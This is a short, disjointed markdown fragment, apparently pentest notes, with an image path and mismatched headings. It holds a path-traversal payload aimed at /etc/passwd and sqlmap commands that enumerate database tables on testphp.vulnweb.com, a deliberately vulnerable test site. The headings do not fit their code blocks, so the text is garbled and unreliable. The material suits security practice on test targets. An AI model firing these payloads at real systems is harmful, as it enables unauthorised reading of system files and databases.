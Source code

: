 ```
........................................................................................................................................................................................../etc/passwd
```

### Not found resource
```
/url/donotexist
```


### Not permision to resource
```
sudo apt-get install sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
```


\%20 white space

```
```